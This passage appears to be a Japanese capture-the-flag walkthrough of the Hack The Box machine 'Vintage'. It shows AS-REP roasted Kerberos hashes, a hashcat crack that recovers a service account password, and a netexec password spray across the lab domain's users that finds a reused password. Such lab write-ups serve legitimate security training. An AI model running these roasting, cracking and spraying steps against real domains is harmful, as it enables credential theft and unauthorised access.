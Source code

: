 ```bash
$krb5asrep$23$svc_ark@VINTAGE.HTB:edfb100f9c0cc71579506db91c270a5c$42507d4bd613c4f4b24240dbf56a3ce4c8f37c9392f8eaeb429a251ae69fe95f4c4dad659b9777b21e16d7996bc62ce6d26718e7dcf4d179c8cea55fde0858b952dd8aadf3b9f7994cf799c5a0b4caad6f1b95af21a9c1c049e7b2530deff186b33d2d312eab0908679e84f70122abc8eae91029cbcc6342ae5606369ff124c53b7b7e001a04b7960dbf838ac57c74faa7af92cb43e5fced10396563009843bba5bf0ddaaa0f27200b10a6311036bf7ad587e7271056ccdd6ac26d2320bb77e90664ffc80a9058e0ee11b5a3443db818430c52e4cdb258d8ca80529efcd52915eef11d95b6dc3f3c9eb3
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

３つのパスワードハッシュを取得することができました。hashcatで解析します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --show
$krb5asrep$23$svc_sql@VINTAGE.HTB:2491e38ff495158a3bdc88363ff4c6bd$677b41dd7d0f077a3c27a7ef2f1e686559ad7252aead0d9075e616f11d1c8f849b4a67ca80e26256b7cd176ad4658a56c84cf9d9ea1f7006ecf030f1607c65451add2844171bebbb84c5a8ee3a4b955ae4f00072265265fe0764388c0b7ef3e6784020f08f3ea6f3c8c10d46162bb3909cf4244c6ff8a6cc93608b832406755a28a45a515525564b08fcbdf6ebe0bfbea3b1bf94b7d32a5d3334ec215bf3f3514b688e08997a56b4bad96645b4b0fc165a4d05e69bd12fae1e056c783c9d8b73e8302b23c61002b5d9f2abaafbec438eb519ff83f0222e1d3fe2a05b6275a66a486762cbc88d3dac88c5:Zer0the0ne
```

svc_sqlのパスワードハッシュの解析に成功し、パスワードが `Zer0the0ne` であることが分かりました。

このパスワードが他のユーザーで使用されていないか調べてみます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ netexec smb dc01.vintage.htb -u users.txt -p 'Zer0the0ne' -k --continue-on-success
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\Administrator:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\Guest:Zer0the0ne KDC_ERR_CLIENT_REVOKED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\krbtgt:Zer0the0ne KDC_ERR_CLIENT_REVOKED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\DC01$:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\gMSA01$:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\FS01$:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\M.Rossi:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\R.Verdi:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\L.Bianchi:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\G.Viola:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\C.Neri:Zer0the0ne 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\P.Rosa:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_sql:Zer0the0ne 
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_ldap account vulnerable to asreproast attack
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_ark account vulnerable to asreproast attack
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\C.Neri_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\L.Bianchi_adm:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
```
